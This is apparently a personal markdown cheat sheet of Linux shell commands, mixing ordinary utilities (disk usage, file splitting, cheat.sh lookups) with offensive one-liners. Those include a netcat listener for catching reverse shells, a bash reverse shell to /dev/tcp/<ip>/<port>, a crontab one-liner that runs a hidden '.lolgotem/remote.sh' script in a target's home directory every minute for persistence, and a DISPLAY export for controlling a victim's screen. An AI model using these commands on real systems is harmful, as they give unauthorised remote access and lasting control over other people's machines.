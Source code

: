 ## Commands
This is my quick list of commands

* Gives a quick help guide to commands
`curl cheat.sh/<command>`

* Using netcat, listen on a port for reverse shell
`nc -nlvp <port>`

* Set a cronjob using one liner
`{ crontab -l; echo "*/1 * * * * /home/$target/Documents/.lolgotem/remote.sh"; } | crontab -`

* Reverse bash shell
`bash -i >& /dev/tcp/<ip>/<port> 0>&1`

* when reverse shell, control display
`export DISPLAY=:0.0`

* Insert typed text until flag is given. In this case, ZZ is used
`cat << ZZ > input.txt`

* Fill a file with random junk
`base64 /dev/urandom | head -c <# of bytes> > file.txt`

* Split large file into chunks
`split -b 9999k file.txt part.`

* To recombine
`cat part.?? > recombine.txt`

* To check diskspace
`df -h`

* To check size of directory
`du -sh <directory>`

